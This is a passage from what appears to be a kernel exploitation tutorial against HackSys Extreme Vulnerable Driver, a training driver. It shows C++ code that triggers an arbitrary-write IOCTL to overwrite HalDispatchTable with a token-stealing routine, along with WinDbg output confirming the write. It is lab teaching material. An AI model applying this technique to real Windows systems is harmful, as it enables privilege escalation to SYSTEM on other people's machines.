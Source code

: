 ```cpp
ULONG What = (ULONG)&StealToken;
*uBuffer = (ULONG)&What;
*(uBuffer + 1) = (addr_HalDispatchTable + 4);

DWORD bytesRet;
DeviceIoControl(
		driver,
		HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE,
		uBuffer,
		SIZE,
		NULL,
		0,
		&bytesRet,
		NULL);
```

---

Now let's test what we have. Put breakpoint right before the exploit gets triggered.

```
kd> bu HEVD!TriggerArbitraryOverwrite  0x61

kd> g
[+] UserWriteWhatWhere: 0x000E0000
[+] WRITE_WHAT_WHERE Size: 0x8
[+] UserWriteWhatWhere->What: 0x0025FF38
[+] UserWriteWhatWhere->Where: 0x82966434
[+] Triggering Arbitrary Overwrite
Breakpoint 2 hit
HEVD!TriggerArbitraryOverwrite+0x61:
93d71b69 mov     eax,dword ptr [edi]
```

Next' let's validate the data.

```
kd> dd 0x0025FF38
0025ff38  00f012d8 bae57df8 0025ff88 00f014d9
0025ff48  00000001 002a06a8 0029e288 bae57d30
0025ff58  00000000 00000000 7ffdc000 2c407500
0025ff68  00000001 00769cbf 0025ff54 96a5085a
0025ff78  0025ffc4 00f01c7b ba30aa60 00000000
0025ff88  0025ff94 75ebee1c 7ffdc000 0025ffd4
0025ff98  77b23ab3 7ffdc000 779af1ec 00000000
0025ffa8  00000000 7ffdc000 00000000 00000000
kd> ln 00f012d8 
Browse module
Set bu breakpoint

 [C:\Users\abatchy\source\repos\HEVD\HEVD\shell32.asm @ 6] (00f012d8)   HEVD_f00000!StealToken   |  (00f01312)   HEVD_f00000!__security_check_cookie
Exact matches:
    HEVD_f00000!StealToken (void)
```
